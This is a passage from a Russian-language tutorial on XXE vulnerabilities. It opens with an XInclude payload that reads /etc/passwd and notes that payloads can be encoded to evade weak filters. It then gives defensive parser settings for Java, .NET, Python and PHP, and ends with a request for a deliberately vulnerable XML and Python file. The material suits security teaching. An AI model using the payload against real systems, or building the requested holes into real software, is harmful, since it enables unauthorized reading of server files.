<data xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</data>
```
**Важные замечания при тестировании**  
`XML` — это формат данных. Не ограничивайтесь поиском только `XXE‑уязвимостей`. Проверяйте функциональность на основе XML на наличие других угроз:
* `XSS` (межсайтовый скриптинг);
* SQL‑инъекций (если XML преобразуется в SQL‑запросы);
* других видов инъекций.

`Кодирование полезной нагрузки`. При тестировании может потребоваться кодировать специальные символы с помощью XML‑последовательностей выхода (например, `<` → `&lt;`, `>` → `&gt;`), чтобы не нарушить синтаксис XML. Это также можно использовать для обхода слабой защиты — запутывания атаки.

`Контекстные особенности`. Учитывайте, как приложение обрабатывает XML:
* какой парсер используется;
* включены ли внешние сущности по умолчанию;
* есть ли фильтрация или санация входных данных.

`Ложные срабатывания`. Некоторые парсеры могут игнорировать внешние сущности без генерации ошибок. Проверяйте результаты несколькими методами.

`Права доступа`. Даже если файл существует, парсер может не иметь прав на его чтение — это приведёт к ошибке, которую нужно отличать от успешной атаки.

## 6. Как предотвратить уязвимость XXE
Практически все уязвимости `XXE` (XML External Entity) возникают из‑за того, что библиотека `XML‑разбора` приложения поддерживает потенциально опасные функции, которые на самом деле не нужны для работы приложения. Самый простой и эффективный способ предотвратить атаки XXE — отключить эти функции.

Ключевые функции, которые следует отключить:
* разрешение внешних сущностей (XXE);
* поддержка `XInclude`.

Обычно это можно сделать двумя способами:
* через параметры конфигурации;
* программно — переопределив поведение по умолчанию.

### 6.1 Конкретные шаги по платформам и библиотекам
1. `Java` (используя DocumentBuilderFactory):
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false); // Отключает расширение сущностей
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true); // Запрещает DOCTYPE
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```
2. `.NET` (используя XmlReaderSettings):
```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit; // Запрещает обработку DTD
settings.XmlResolver = null; // Отключает разрешение внешних ресурсов
```
3. `Python` (используя defusedxml):
Рекомендуется заменить стандартный модуль `xml` на `defusedxml` — безопасную альтернативу:
```python
from defusedxml.ElementTree import parse
tree = parse('input.xml')
```
4. `PHP` (используя libxml_disable_entity_loader):
```php
libxml_disable_entity_loader(true); // Отключает загрузку внешних сущностей
```
5. Другие библиотеки:
Для других XML‑парсеров (например, Xerces, libxml2) изучите документацию — ищите настройки, отключающие:
* обработку `DTD`;
* загрузку `внешних сущностей`;
* поддержку `XInclude`.

### 6.2 Дополнительные меры защиты
Помимо отключения опасных функций, рекомендуется реализовать следующие меры:
1. `Валидация` входных данных:
    * проверяйте и санируйте все XML‑данные, поступающие от пользователей;
    * используйте схемы XML (`XSD`) для строгой валидации структуры данных.
2. `Ограничение типов` контента:
    * явно указывайте ожидаемый тип контента (например, application/json или application/x‑www‑form‑urlencoded);
    * отклоняйте запросы с Content‑Type: text/xml, если XML не требуется.
3. Использование `безопасных библиотек`:
    * отдавайте предпочтение библиотекам, изначально настроенным на безопасность (например, `defusedxml` в Python);
    * регулярно обновляйте используемые библиотеки до последних версий.
4. `Минимизация привилегий`:
    * запускайте приложение с минимальными необходимыми правами доступа;
    * ограничьте доступ XML‑парсера к файловой системе и сетевым ресурсам.
5. `Мониторинг и логирование`:
    * отслеживайте попытки загрузки внешних сущностей или подозрительных запросов;
    * настройте логирование ошибок XML‑парсера для выявления потенциальных атак.
6. Регулярное `тестирование безопасности`:
    * проводите периодическое сканирование на уязвимости (например, с помощью Burp Suite);
    * включайте тестирование `XXE` в процесс пентеста и код‑ревью.

НЕОБХОДИМО РАЗРАБОТАТЬ XML И РАБОЧИЙ ПИТОН ФАЙЛ СО ВСЕМИ УЯЗВИМОСТЯМИ